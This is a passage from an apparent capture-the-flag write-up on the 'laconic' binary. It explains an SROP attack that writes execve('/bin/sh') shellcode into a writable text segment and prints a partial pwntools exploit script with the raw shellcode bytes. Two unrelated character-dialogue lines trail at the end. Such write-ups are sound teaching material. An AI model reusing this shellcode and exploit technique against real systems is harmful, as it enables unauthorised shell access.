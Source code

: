 Using an SROP, we can trigger a syscall of our choice but calling `execve("/bin/sh", 0, 0)` is not yet possible (because the `"/bin/sh"` string doesn't exist in the binary. Instead of trying this directly, we can take advantage of the fact that the `.text` segment is writable. We will use the SROP to call a `read` syscall which allows us to write a shellcode directly in the text segment, and taking care of redirecting `RSP` to a location that holds a pointer to our shellcode (we should also make sure we don't overwrite the original code, so that the 2 usefull gadgets we use doesn't get overriden in the middle of the exploit).

Here is a schematic for illustrating the layout we aim to reach in the exploitation:

![exploit plan schematic](/img/ctf-htb-cyberapo2025/laconic-memory.png)


Chaining it together, we build the following exploit code (I used [this small shellcode](https://systemoverlord.com/2016/04/27/even-shorter-shellcode.html)):
```python
from pwn import *
import argparse

context.binary = './laconic'

if __name__ == "__main__":
    parser = argparse.ArgumentParser()

    subparsers = parser.add_subparsers(dest='command')

    parser_local = subparsers.add_parser('local')

    parser_remote = subparsers.add_parser('remote')
    parser_remote.add_argument('host')
    parser_remote.add_argument('port', type=int)

    parser.add_argument('-b', '--binary', help='local binary path', required=True)

    args = parser.parse_args()

    if args.command == 'local':
        p = process(args.binary)
        #p = gdb.debug(args.binary)
    elif args.command == 'remote':
        p = remote(args.host, args.port)
    else:
        parser.print_help()
        exit(1)

    binary = ELF(args.binary)
    rop = ROP(binary)

    g_syscall = rop.find_gadget(['syscall', 'ret'])[0]
    g_pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
    print('[+] syscall gadget:', hex(g_syscall))

    scb = b"\x31\xF6\x56\x48\xBB\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x53\x54\x5F\xF7\xEE\xB0\x3B\x0F\x05"
    scb = scb.ljust(64, b'\x90')
    padded_len = 64
    print(padded_len, scb)

    print('[+] RSP will land at', hex(binary.symbols._start + 0x20 + padded_len))
    srop = SigreturnFrame(kernel='amd64')
    srop.rdi = 0
    srop.rsi = binary.symbols._start + 0x20
    srop.rdx = padded_len + 8
    srop.rsp = binary.symbols._start + 0x20 + padded_len 
    srop.rip = g_syscall
```

[Sir Alaric]: Give me your best warcry!!
[Sir Alaric]: That was quite a shot!!